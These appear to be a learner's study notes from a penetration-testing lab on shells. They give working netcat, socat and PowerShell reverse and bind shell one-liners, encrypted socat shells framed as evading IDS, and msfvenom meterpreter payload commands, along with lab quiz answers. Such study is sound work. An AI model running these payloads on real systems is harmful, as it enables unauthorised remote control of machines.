


### WHAT IS SHELL?
Shells are what we can use to interface with a Command Line Environment. 

**Tools which we can use to gain Reverse Shells**  
_Netcat_  
Netcat is used to manually perform all kinds of networking tasks manually like banner grabbing during enumeration. The shell is usually unstable but can be made stable  


_Socat_  
Socat is similar to Netcat but even better. But but the syntax of Socat is harder and finding it on a server pre-installed is kinda rare whereas Netcat is virtually found on each distro. 

_Auxiliary/Multi/Handler_  
It is the metasploit's module used to receive the reverse shells. Similar to socat and netcat. Stable shell straight out of the box. Also easiest way to interact with meterpreter shell. 

_MSFVenom_  
Like Multi handler and kinda part of Metasploit but still standalone as well, is used to create payloads on the fly, It can generate many types of payload which also include reverse and bind shells

**Types of Shell**  
_Reverse Shells_ - It is generated whem the target is forced to run the code and connects back to our system. We'd have to use a listener to receive the connection. When receiving a shell from a machine over the internet, we'll need to configure our computer to accept the shells, Which is not required when accessing THM. Example - 


_Bind Shells_ - It is called so because the code is executed on the server and we are to attach the shell directly to the target. We don't need any extra configuration on our end but it might be prevented by the firewall. Example - 


  
  
  
**Listeners -**  
_Netcat Listener_ - Syntax is something like this -
```
nc -lvnp <Port Number>
```
Explaination -  
*  -l - To operate in listener mode
*  -v - For verbose output
*  -n - Tells to not resolve host name or use DNS
*  -p - Indicates that port number will be added 

**Stabilising Netcat Shell -**  
_Python_ - Applicable to Linux systems only. There are 3 stages to this
1. By using python -c 'import pty;pty.spawn("/bin/bash)'. 
2. Then export TERM=xterm
3. Then we can background this shell using ctrl-z and then use - stty raw -echo; fg. It turns off our own terminal echo and then it foregrounds the shell.  

_rlwrap_ - It is a program which gives us access to history, tab autocompletion and the arrow keys immediately upon receiving shell. We can use rlwrap nc -lvnp < port >. Particularly useful when dealing with Windows shells. We can achieve even more stabilisation when by using the same thing as step 3 of python.  

_Socat_ - In this method we simply use the netcat shell to gain a socat shell. Limited to Linux systems only because socat is equally unstable as netcat in Windows. To get a socat shell we are required to transfer a socat static compiled binary. In the windows CLI environment we can use Invoke-WebRequest or a webrequest system class. (Invoke-WebRequest -uri < LOCAL-IP >/socat.exe -outfile C:\\Windows\temp\socat.exe)  


**Socat**  
Socat is similar to netcat but fundamentally different in many ways. Socat is a connector between two point. It can be a listening port and a keyboard/file or even two listening ports. Just like portal. Ping me up if you need someone to play portal with.  

_Reverse Shells_ - Listener syntax -> socat TCP-L:< port > -  
On windows we will use the following to connect back -> socat TCP: < LOCAL-PORT > EXEC:powershell.exe,pipes  
"Pipes" is used to force powershell to a Unix style standard input and output

On linux systems we can use -> 
```
socat TCP:< Local-IP >:< Local Port > EXEC:"bash -li"
```

_Bind Shells_ -   
On Linux -> 
```
socat TCP-L:< PORT > EXEC:"bash -li'  
```
On Windows -> 
```
socat TCP-L:< PORT > EXEC:powershell.exe,pipes  
```

And also don't forget to connect to the waiting shells from attacking machine.  

_Stabilisation_ - On a linux system, we can get a fully stable Linux tty reverse shell. Better listener syntax -> 
``` 
socat TCP-L:< port > FILE:`tty`,raw,echo=0.  
```
In the previous syntax, we are passing the current TTY as a file and setting echo to be zero. Equivalent to step 3 in python, but the thing being, it's fully functional and stable out of the box.  
Tho above listner need a special socat command. It can't just be invoked as such. ->  

```
socat TCP:< local ip >:< port > EXEC "bash -li",pty,stderr,sigint,setsid,sane
```
To break it down - 
1. pty - allocates pseudoterminal on the target.
2. stderr - Makes sure error messages are shown in shell
3. sigint - passes any CTRL+C commands through into the sub-process.
4. setsid - Creates process in a new session
5. sane - stabilises the terminal. 

_Encrypted Socat Shells_ - Why? Encrypted shells can not be spied upon without the decryption key and often can bypass IDS as a result. Basically in syntax, TCP is replaced with OPENSSL. Starting off, we need to generate our certificate to use encrypted shells. We can use the following -  
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
The above thing will make a 2048 RSA key with matching cert file, self-signed and valid for just under a year. Next up we need to merge these both files and a .pem file. 
```
cat shell.key shell.crt > shell.pem
```
Setting up the listener -  
```
socat OPENSSL-LISTEN:< port >, cert=shell.pem,verify=0 - 
```
To connect to the listener -  
```
socat OPENSSL:< local-IP >:< local port >,verify=0 EXEC:/bin/bash
```

Q. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"?  
```
socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0,FILE:`tty`,raw,echo=0
```
Q. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

**Common Shell Payloads**  
A very basic netcat shell is -  
```
nc < local ip > < port > -e /bin/bash
```
Well as a suprise to no one, it is usually not present cause it's pretty insecure.  
So as a result we can use -  
```
mkfifo /tmp/f; nc < local ip > < port > < /tmp/f | /bin/sh > /tmp/f 2>&1; rm tmp/f
```
WHAT IS THIS SORCERY?????  
So first we are making a named pipe, namely /tmp/f, and then we executed the netcat as we normally would, and it connects the listener to the input of the said named pipe. The input from the netcat is directly piped in to the sh, sending stderr input stream into stdout, and sending stdout itself into the input of the named pipe.  

When in need of a windows powershell reverse shell we can look forward to the following one liner -  
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('< ip >',< port >);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**MSFVENOM**  
It is the big boi of all the payload related thing and is also a part of metasploit framework. Standard syntax -  
```
msfvenon -p <PAYLOAD> <OPTIONS>
```
Example -  
```
msfvenon -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
Here -  
*  f - format of file
*  o - output file and location

_Two types of reverse shell payloads -_
1. Staged - These ones are sent in two parts, first one is a stager. Stager is executed on the server and connects back to the listener. It doesn't have a reverse shell payload itself, but it uses that connection to load the payload and executing it directly without it even going on the disk so traditional AV bypass :). The listener is usually the metasploit Multi/Handler. 
2. Stageless - They are more common. They are entirely self contained piece of code which sends the shell back immediately when executed.  

Q. What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
```

